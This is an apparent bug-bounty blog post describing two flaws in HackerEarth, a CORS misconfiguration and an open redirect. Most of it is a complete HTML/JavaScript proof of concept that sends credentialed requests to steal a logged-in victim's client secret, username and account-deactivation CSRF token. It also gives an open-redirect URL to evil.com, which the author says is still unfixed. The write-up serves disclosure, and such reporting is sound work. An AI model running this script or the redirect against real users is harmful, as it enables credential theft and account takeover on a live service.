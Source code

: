 ```yaml
---
title:      Stealing secrets tokens and all private info of hackerearth users  
date:       2020-07-10 11:31:19
author:     dr3dd
summary:    Stealing secrets tokens of hackerearth account 
categories: Bug-Bounty
thumbnail:  book
password:  h4k3re4rth_h4ck
tags:
 - Bug-Bounty
---
```


Hi all,

I found two bugs in hackerearth. one of them is fixed and other is still not fixed.

### 1. cores misconfiguration (fixed)

When i change the origin header in request to `https://www.hackerearth.com.evil.com` the responce i got is:

```python
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hackerearth.com.evil.com
```

I backend regex onlly check for `www.hackerearth.com` after `https://`. So i made a subdomain of my site `www.hackerearth.com.dr3dd.live` after passing this domain
in request i got the response is:

```python
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hackerearth.com.dr3dd.live
```

We can see `Access-Control-Allow-Credentials: true` for `www.hackerearth.com.dr3dd.live`. So i wrote a small js script to steal secrets tokens of victim.

```html
<!DOCTYPE html>
<html>
<body>

<div>
<h1>Getting hackerearth Client secrets for victim!!!</h1>
<button type="button" onclick="loadDoc()">Get secrets!!!</button>
  <div id="demo1"></div>
  <div id="demo2"></div>
  <div id="demo3"></div>
<button type="button" onclick="get_csrf_token()">You can get any csrf token and make changes in victim account like this is account deactivate csrf token!!!</button>
  <div id="demo4"></div>
</div>

<script>
function loadDoc() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var parser=new DOMParser();
        var xmlDoc=parser.parseFromString(this.responseText, "text/html").documentElement;
        var clientId = xmlDoc.querySelector('#client-id');
        var clientSecret = xmlDoc.querySelector('#client-secret');
        var username = xmlDoc.querySelector('#change-username');
        document.getElementById("demo1").innerHTML = clientId.innerText;
        document.getElementById("demo2").innerHTML = clientSecret.innerText;
        document.getElementById("demo3").innerHTML = username.innerText.replace('Edit','');;
        
    }
  };
  xhttp.open("GET", "https://www.hackerearth.com/users/profile-settings/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
function get_csrf_token(){
  var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var parser=new DOMParser();
        var xmlDoc= parser.parseFromString(this.responseText, "text/html").documentElement;
        var csrf = xmlDoc.querySelector('#deactivate-form')[0].value;
      document.getElementById("demo4").innerHTML = "csrf for deactivate account : " + csrf;
    }
  };
  var username = document.getElementById("demo3").innerText;
  var url = "https://www.hackerearth.com/deactivate/" + username.replace("Username: ","");;
  xhttp.open("GET", url, true);
  xhttp.withCredentials = true;
  xhttp.send();
}
  
  
</script>

</body>
</html>
```

I have hosted it on `http://www.hackerearth.com.dr3dd.live/cores.html` first button steal secrets token and second one steal csrf tokens of victim.


### 2. Open Redirect 

This one is pretty simple bug. for open redirect go to :

`https://www.hackerearth.com/social-login-complete-page/?redirect=https://evil.com`
